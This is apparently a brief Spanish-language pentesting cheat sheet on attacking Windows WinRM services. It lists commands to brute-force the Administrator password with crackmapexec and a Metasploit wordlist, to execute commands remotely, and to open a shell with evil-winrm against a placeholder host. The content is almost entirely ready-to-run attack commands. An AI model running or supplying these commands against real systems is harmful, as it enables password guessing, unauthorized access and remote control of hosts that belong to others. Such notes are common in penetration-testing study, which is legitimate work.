 ```yaml
---
created: 2024-12-21

---
```

---------
- tags: #windows #rce #passthehash #crackmapexec #evilwinrm 
-----------------

### Fuerza bruta con crackmapexec 

	crackmapexec winrm x.x.x.x -u Administrator -p /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt


### Ejecutar comandos con crackmapexec

	crackmapexec winrm x.x.x.x -u Administrator -p 123456789 -x "whoami"


### Shell con evil-winrm

	evil-winrm.rb -u Administrator -p 123456789 -i x.x.x.x 










  

















